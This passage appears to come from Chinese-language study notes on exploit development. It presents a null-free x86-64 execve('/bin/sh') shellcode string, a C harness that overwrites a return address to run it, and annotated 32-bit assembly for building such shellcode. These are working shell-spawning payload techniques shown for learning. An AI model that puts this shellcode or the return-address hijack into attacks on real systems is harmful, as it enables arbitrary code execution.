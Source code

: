 ```
```

现在，我们的shellcode中已经没有0x00了，并且还变短了呢。

现在，我们试一试这个shellcode作为字符串能否运行。

```c
shellcode.c
#include<stdio.h>
#include<string.h>

char shellcode[] = "\xeb\x2c\x5b\x48\x89\x5c\x24\x08\x48\x31\xc0\x88\x44\x24\x07\x89\x44\x24"
                   "\x10\xb0\x3b\x48\x89\xdf\x48\x8d\x74\x24\x08\x48\x8d\x54\x24\x10\x0f\x05"
                   "\x48\x31\xff\x48\x31\xc0\xb0\x3c\x0f\x05\xe8\xcf\xff\xff\xff/bin/sh";

void test() {
    long  *ret;
    ret = (long *)&ret + 2;
    (*ret) = (long)shellcode;
}

void main() {
    test();
}
```

![image-20231121165019913](C:\Users\yangyushi\AppData\Roaming\Typora\typora-user-images\image-20231121165019913.png)

**构造一个shellcode**

```assembly
section .text
global main ;程序入口
main:
	jmp getstraddr       ;call next,pop用于获取call下一条指令地址
	                     ;本程序中也就是字符串/bin/sh的地址

start:	
	pop esi              ;获取cmd字符串地址
	;结合下面的表格来看
	;[esi]指向字符串地址 对应第一个参数cmd指程序所在的路径
	
	mov [esi+8],esi      ;填充argc【】数组第一个元素
	xor eax,eax          ;得到0；源码中不应该出现0，否则会被截断
	mov [esi+7],al       ;/bin/sh后面要用0截断
	mov [esi+12],eax     ;填充argc【】数组第二个元素，必须是空指针
	
	;[esi+8]和[esi+12]共同构成第二个参数：是传递给程序的参数，数组指针argv必须以程序filename开头，NULL结尾
	mov edx,eax          ;第三个参数
	;最后一个参数为传递程序的新环境变量
	mov al,11            ;系统调用号，为了避免出现0，所以只给al赋值
	                     ;11是execve的调用号
	mov ebx,esi          ;第一个参数，是/bin/sh的地址
	lea ecx,[esi+8]      ;第二个参数，是argc【】数组的地址
	int 0x80             ;使用int 0x80中断调用系统函数

getstraddr:
	call start ;此时会把下一条指令压入堆栈，本例是"/bin/sh"
	;call指令会将下一条指令的地址压栈
str:
cmd db "/bin/sh",0h ;1字节
straddr dd 0;4字节
nulladdr dd 0;4字节
;char* argc[] = {cmd,NULL}
;execve(cmd, argc, 0);
```
